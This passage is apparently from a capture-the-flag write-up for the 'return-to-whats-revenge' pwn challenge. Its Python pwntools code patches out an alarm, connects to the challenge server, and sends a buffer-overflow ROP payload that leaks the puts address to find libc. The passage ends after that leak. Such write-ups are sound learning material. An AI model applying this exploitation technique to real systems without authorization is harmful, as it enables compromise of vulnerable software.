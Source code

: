> I initially read this as a blacklist, and started on readv, openat, writev.  Lost sometime.  Pay attention.


## Exploit development

### Get rid of that alarm

```python
#!/usr/bin/env python3

from pwn import *

binary = ELF('return-to-whats-revenge')
binary.asm(binary.symbols['alarm'], 'ret')
binary.save('return-to-whats-revenge_noalarm')
os.chmod('return-to-whats-revenge_noalarm',0o755)
```

There's multiple ways to handle this, including directly from GDB, but I prefer to just have a patched binary.


## Exploit

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./return-to-whats-revenge_noalarm')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.duc.tf', 30006)
```

Boilerplate pwntools.  `context.binary` is important for ROP.  Also notice there's no `libc` set for `REMOTE` since we have to find it first.


### Leak libc

```python
# 1st pass: leak libc
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = 0x38 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.vuln)

p.sendlineafter('Where would you like to return to?\n',payload)

_ = p.recv(6)
puts = u64(_ + b'\0\0')
log.info('puts: ' + hex(puts))
```